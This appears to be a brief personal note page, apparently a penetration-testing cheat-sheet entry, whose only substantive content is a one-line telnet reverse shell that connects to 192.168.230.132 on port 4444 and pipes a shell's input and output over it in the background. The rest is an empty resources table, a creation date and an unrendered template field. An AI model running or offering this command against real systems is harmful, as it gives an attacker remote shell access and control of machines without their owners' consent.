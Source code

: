 

sh -c '(sleep 4062|telnet 192.168.230.132 4444|while : ; do sh && break; done 2>&1|telnet 192.168.230.132 4444 >/dev/null 2>&1 &)'




___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: August 1st 2023 (08:25 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
